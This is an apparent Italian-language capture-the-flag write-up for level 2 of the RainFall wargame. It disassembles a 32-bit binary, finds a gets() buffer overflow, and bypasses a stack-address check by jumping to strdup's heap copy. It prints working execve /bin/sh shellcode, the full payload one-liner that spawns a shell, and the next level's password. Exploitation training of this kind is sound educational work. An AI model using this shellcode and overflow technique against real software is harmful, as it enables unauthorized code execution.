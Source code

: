 # Level 2

Come prima cosa analizzo le stringhe presenti nell'eseguibile:
```
level2@RainFall:~$ readelf -p '.rodata' level2

String dump of section '.rodata':
  [     8]  (%p)^J
```
ma non trovo nulla di interessante, dunque passo ad analizzare tramite `gdb`:
```
level2@RainFall:~$ gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) disass p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```
Troviamo due funzioni collegate, ovvero `main` e `p`.

`main` che si occupa solo della chiamata alla funzione `p`, mentre quest'ultima
contiene la chiamata a `gets`, quindi vulnerabile.
Altro aspetto importante è il seguente codice:
```
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
```
il quale controlla se l'indirizzo di ritorno è presente nello stack o meno,
dunque non possiamo inserire uno shellcode nello stack, ma per fortuna 
l'input inserito dall'utente viene poi passato alla funzione `strdup` la quale
inserisce l'input nell'heap, ed è proprio ciò che sfrutteremo, poichè osservando
il comando `ltrace` notiamo che l'indirizzo di ritorno è sempre uguale:
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                         = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5usavoia
)                              = 0xbffff6fc
puts("usavoia"usavoia
)                                                            = 8
strdup("usavoia")                                                          = 0x0804a008
+++ exited (status 8) +++
```
Quindi ora non resta che trovare l'offset dell'indirizzo contenuto in `eip` tramite
il sito [Buffer Overflow EIP Offset String Generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)
inserendo un massimo di 104 caratteri che corrisponde allo spazio riservato nello stack
per la funzione `p`:
```
level2@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad" > /tmp/exploit1
level2@RainFall:~$ gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r < /tmp/exploit1
Starting program: /home/user/level2/level2 < /tmp/exploit1
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Abbiamo un offset di 80 byte, quindi bisogna scrivere uno shellcode che rientri
in 80 byte per poi aggiungere i 4 byte dell'indirizzo di strdup `0x0804a008`

Shellcode (Assembly):
```asm
section .text
global _start

_start:
  xor  eax, eax
  push eax
  push 0x68732f2f
  push 0x6e69622f
  mov  ebx, esp
  push eax
  push ebx
  mov  ecx, esp
  xor  edx, edx
  mov  al, 11
  and  esp, 0xfffffff0
  int  0x80
```
Shellcode (Opcode):
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80
```
Ora bisogna creare una stringa che contenga i 28 byte dello shellcode più 52 byte
di spazzatura più 4 byte per l'indirizzo restituito da strdup, così che `eip`
salterà nell'heap agli opcode memorizzati dalla copia effettuata da strdup e verranno
eseguiti normalmente, avviando una shell:

```
level2@RainFall:~$ python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80" + "a"*52 + "\x08\xa0\x04\x08"' > /tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
1�Ph//shh/bin��PS��1Ұ
                     ���̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�aaaaaaaaaaa�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
```
level2@RainFall:~$ su level3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```